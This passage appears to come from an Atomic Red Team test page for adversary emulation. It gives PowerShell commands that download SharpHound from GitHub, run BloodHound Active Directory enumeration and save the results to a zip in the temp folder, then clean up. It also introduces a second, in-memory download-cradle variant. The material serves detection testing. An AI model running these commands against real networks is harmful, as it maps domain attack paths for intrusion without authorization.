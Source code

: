 ## Atomic Test #2 - Run BloodHound from local disk

Upon execution SharpHound will be downloaded to disk, imported and executed. It will set up collection methods, run and then compress and store the data to the temp directory on the machine. If system is unable to contact a domain, proper execution will not occur.

Successful execution will produce stdout message stating "SharpHound Enumeration Completed". Upon completion, final output will be a \*BloodHound.zip file.

**Supported Platforms:** Windows

**auto_generated_guid:** a21bb23e-e677-4ee7-af90-6931b57b6350

#### Attack Commands: Run with `powershell`!

```powershell
import-module "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
try { Invoke-BloodHound -OutputDirectory $env:Temp }
catch { $_; exit $_.Exception.HResult}
Start-Sleep 5
```

#### Cleanup Commands:

```powershell
Remove-Item $env:Temp\*BloodHound.zip -Force
```

#### Dependencies: Run with `powershell`!

##### Description: SharpHound.ps1 must be located at "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"

##### Check Prereq Commands:

```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
```

<br/>
<br/>

## Atomic Test #3 - Run Bloodhound from Memory using Download Cradle

Upon execution SharpHound will load into memory and execute against a domain. It will set up collection methods, run and then compress and store the data to the temp directory. If system is unable to contact a domain, proper execution will not occur.
